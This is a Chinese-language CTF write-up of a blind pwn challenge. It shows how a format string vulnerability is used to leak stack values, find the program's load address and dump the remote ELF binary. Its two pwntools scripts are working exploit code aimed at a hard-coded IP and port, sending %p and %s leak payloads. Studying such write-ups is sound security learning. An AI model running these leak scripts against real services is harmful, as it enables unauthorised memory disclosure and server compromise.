 ```yaml
---
title: Dump ELF With Format String Vulnerability
date: 2017-06-04 23:25:37
categories: pwn
---
```


# 使用格式化串攻击来dump服务器上的程序
之前一直以为fmt能泄漏的的就是canary了，直到这次pwnhub遇到没有给样本程序的pwn比赛。这里先泄漏程序，再去分析程序写exp，拿到服务器权限。
<!-- more -->
> - by hook

## blind pwn

只给了一个远程地址`54.223.254.123:701`,连接后发现只是简单的输入输出交互，测试%p发现是64位的环境。

## 信息泄漏
### <1>. 尝试固定地址泄漏
先写exp尝试泄漏固定地址处的内容，发现并没有拿到程序头部'ELF'标示字符串，怀疑是开启了PIE，导致了程序映射的地址都是随机的。


### <2>. 栈信息泄漏
这里开始泄漏栈信息，来推测出程序的加载地址。

```
#!/usr/bin/python

from pwn import *
from binascii import *

#64bit

f = open('./stack_info.txt', 'w')

index = 0x1
while index < 220:
    try: 
        p = remote("54.223.254.123", 701)
        p.recvuntil('something:')
        payload = '%'+str(index)+'$#p'
        p.sendline(payload)
        p.recvuntil('interesting:')
        result_str = p.recv()
        if result_str == '(nil)':
            result_str = '0x0'
        resstr = '{:016x}'.format(int(result_str, 16))
        f.write(resstr+'\n')
        index += 1
    except Exception:
        print("index = " + str(index))
        log.warning("got exception...", exc_info = sys.exc_info())
        break
f.close()
```

从返回的栈信息推测程序是加载在`0x557a143d0000`附近
经反复测试后得到程序是加载在`0x557a143d2000`处。
`（这里地址为什么会固定我也没明白，但他人说是因为它虽然开了PIE, 但没开ASLR, 导致了PIE的功能缺失，地址固定下来了）`

### <3>. 格式化偏移地址确定
根据%p来确定偏移量

### <4>. dump ELF
接着从上文得到的地址处开始dump ELF

```
#!/usr/bin/python

# -*- coding: utf-8 -*-

from pwn import *
def leakELF(addr):
    p = None
    for i in range(5):
        try:
            p = remote("54.223.254.123", 701, timeout=1)
            payload = "aaaabb__%9$s__EN" + p64(addr)
            #if ("\x0a" in payload) or ("\x00" in payload):
            #    log.warning("newline in payload!")
            #    return "\xff"
            p.recvuntil('something:')
            p.sendline(payload)
            p.recvuntil('interesting:')
            data2 = p.recv()
            log.info(hexdump(data2))
            if data2:
                fr = data2.find("bb__") + 4
                to = data2.find("__EN")
                res = data2[fr:to]
                if res == "":
                    return "\x00"
                else:
                    return res
            return "\xff"
        except KeyboardInterrupt:
            raise
        except EOFError:
            log.debug("got EOF for leaking addr 0x{:x}".format(addr))
            pass
        except Exception:
            log.warning("got exception...", exc_info = sys.exc_info())
        finally:
            if p:
                p.close()
    return "\xff"

f = open("dumpFile", "wb")
base = 0x557a143d2000
leaked = ""
while len(leaked) < 8300:
    address = base + len(leaked)
    tmp = leakELF(address)
    leaked += tmp
    log.info(hexdump(leaked))
    with open("nomoreblind-binary", "wb") as f:
        f.write(leaked)
```
![](/images/Dump ELF With Format String Vulnerability/dumpELFs.gif)

## 程序分析
可以看到dump出的程序可以正常分析，接着就是分析漏洞，编写exp，获取服务器shell了。
![](/images/Dump ELF With Format String Vulnerability/leakELF.png)


